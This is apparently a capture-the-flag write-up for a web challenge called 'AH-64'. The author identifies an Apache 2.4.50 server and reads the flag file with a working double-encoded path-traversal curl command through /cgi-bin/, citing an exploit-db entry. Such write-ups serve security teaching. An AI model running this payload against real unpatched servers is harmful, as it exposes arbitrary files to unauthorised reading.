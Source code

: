 **AH-64**

> Category: Web
>
> Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag
> 
> Site: AH-64 (http://io.ept.gg:30071/)

Going into the link we get a website with the text "It works!", and no more. 

We can send a GET-request to the webpage to see the server version.

Using httpie:
```
http GET http://io.ept.gg:30071/ 
```
Shows us 
> Server: Apache/2.4.50 (Unix)

A little research shows us that this server is vulnerable to a path-traversal attack (https://www.exploit-db.com/exploits/50406)
The webpage also gives us the method to perform this attack.

```
curl http://io.ept.gg:30071//cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/opt/flag
> EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}
```


